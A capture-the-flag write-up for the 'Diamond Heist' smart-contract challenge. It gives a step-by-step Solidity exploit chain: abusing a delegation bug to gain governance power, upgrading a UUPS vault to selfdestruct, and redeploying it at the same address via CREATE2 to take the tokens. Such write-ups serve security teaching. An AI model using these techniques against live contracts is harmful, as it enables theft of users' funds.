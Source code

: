 # Diamond Heist

## Author

0xkasper

## Description

Agent, we are in desperate need of your help. The King's diamonds have been stolen by a DAO and are locked in a vault.
They are currently voting on a proposal to burn the diamonds forever!

Your mission, should you choose to accept it, is to recover all diamonds and keep them safe until further instructions.

Good luck.

This message will self-destruct in 3.. 2.. 1..

## Solution

### Step 1: 
The *HexensCoin* contract has a bug where if you transfer your tokens it will NOT reset the delegation.
All you have to do
is to make 10 account and circle the tokens through them, each account can delegate to the player until the player has
enough power to *burn* the diamonds in the *Vault*.

### Step 2:

Burn the token in the *Vault*, don't worry, we will recover them later.

```solidity
Vault.governanceCall(abi.encodeWithSignature("burn(address,uint256)", address(Diamond), 31337));
```

### Step 3:

We can make `governanceCall`, we take advantage of this and upgrade the vault to a new implementation of our own.

```solidity
Vault2 v2 = new Vault2();
Vault.governanceCall(abi.encodeWithSignature("upgradeTo(address)", address(v2)));

contract Vault2 is Initializable, UUPSUpgradeable, OwnableUpgradeable {
    function destruct() external {
        selfdestruct(payable(msg.sender));
    }
    function _authorizeUpgrade(address) internal override view {}
}
```

Once we upgrade to the *Vault2*, we just destruct the vault.

### Step 4:

Create a new vault using *VaultFactory* combined with the same *salt* used in the creation of the original vault.
Because *VaultFactory* uses *CREATE2*, it will create the new vault at the same address as the original vault.
Now we can *initialize* the new vault with our own parameters.

```solidity
Vault v3 = VaultFactory.createVault(keccak256("The tea in Nepal is very hot. But the coffee in Peru is much hotter."));
v3.initialize(address(new FakeToken()), address(new FakeToken()));
```

### Step 5:

Upgrade to another vault implementation which has a *mint* function, remember this contract has the exact address as 
the original vault that burnt the diamonds.

```solidity
Vault4 v4 = new Vault4();
v3.upgradeTo(address(v4));
Vault4(address(v3)).unburn(player, diamond, amount);

contract Vault4 is Initializable, UUPSUpgradeable, OwnableUpgradeable {
    function unburn(address player, Diamond diamond, uint amount) external {
        diamond.transfer(player, amount);
    }

    function _authorizeUpgrade(address) internal override view {
    }
}
```

### Read More

[Metamorphic Smart Contracts](https://mixbytes.io/blog/metamorphic-smart-contracts-is-evm-code-truly-immutable)
